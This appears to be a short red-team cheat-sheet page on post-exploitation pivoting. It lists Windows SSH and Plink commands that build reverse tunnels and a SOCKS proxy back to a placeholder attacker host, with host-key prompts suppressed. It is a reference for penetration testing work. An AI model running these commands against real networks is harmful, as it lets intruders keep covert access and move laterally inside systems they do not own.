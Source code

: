 # SSH

## 01 - SSH

TODO: Fill this info and refer to the links below

### 1.1 - Scenarios

#### 1.1.1 - Reverse Tunneling SOCKS Proxy

```
C:\> ssh -o StrictHostKeyChecking=no -N -R <SOCKS_PORT> <username>@<attacker_IP>
```

## 02 - Plink

### 2.1 - Usage

```
C:\> cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

- Note: You can do the full path if you wish

```
C:\> c:\windows\system32\cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/07 - Pivoting and Lateral Movement/Pivoting/Linux/Port Forwarding/SSH/Metasploit/Metasploit|Metasploit]]

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)

- [NetSPI: How to Access RDP Over a Reverse SSH Tunnel](https://www.netspi.com/blog/technical/technical-vulnerability-management/how-to-access-rdp-over-a-reverse-ssh-tunnel/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Catharsis Network Pivoting and Tunneling Guide](https://catharsis.net.au/blog/network-pivoting-and-tunneling-guide/)
